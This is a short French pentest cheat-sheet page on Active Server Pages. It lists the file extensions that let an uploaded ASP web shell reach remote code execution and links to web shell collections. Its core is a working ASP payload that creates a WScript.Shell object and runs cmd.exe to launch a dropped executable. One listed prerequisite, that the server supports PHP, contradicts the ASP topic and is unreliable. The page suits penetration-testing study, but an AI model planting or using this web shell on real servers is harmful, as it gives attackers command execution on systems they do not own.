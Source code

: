 # Active Server Pages

<img src="logo-asp.png" title="" alt="" height="200">

**Facteur de risque** : RCE via webshell

**Extension** : `.asp`, `.aspx`, `.cer`, `.asa`, `.asax`, `.cshtml`, `.vbhtml`

**Description** : **Active Server Pages** est une solution Microsoft de langage de script côté serveur, qui fonctionne avec VBScript et JScript.  Elle a été remplacé par **ASP.NET** en 2002.

## Sommaire

- RCE

## RCE

### Pré-requis

- Le fichier doit être accessible après avoir été uploadé

- Le serveur supporte le PHP

### Payload

```visual-basic
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\shell443.exe",0,True)
%>
```

## References

- Web shells in PHP, ASP, JSP, Perl, and ColdFusion : http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Webshells%20In%20PHP,%20ASP,%20JSP,%20Perl,%20And%20ColdFusion.pdf
- [Webshell &#xB7; Total OSCP Guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html)

## Todo

- [PayloadsAllTheThings/Upload Insecure Files/Extension ASP at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)

- 
